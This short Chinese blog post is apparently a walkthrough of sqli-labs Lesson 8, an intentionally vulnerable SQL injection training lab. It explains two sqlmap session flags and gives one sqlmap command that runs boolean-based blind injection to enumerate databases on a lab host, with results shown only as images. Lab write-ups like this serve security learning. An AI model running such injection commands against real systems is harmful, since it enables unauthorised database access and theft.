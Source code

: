 跟Lesson-1的过程没有什么大的区别。详细过程可以查看如下。

{% post_link sqli-labs-lession-1-基于错误的GET单引号字符型注入 点击查看Lesson-1%}

清除session

--flush-session  --fresh-queries

`sqlmap -u http://10.60.250.151/sqlilabs/Less-8/?id=1 --dbs --technique B --threads 10 --flush-session --fresh-queries
`

![3](/img/sql/Lesson-8/3.png)

直接上结果了。

![2](/img/sql/Lesson-8/2.png)
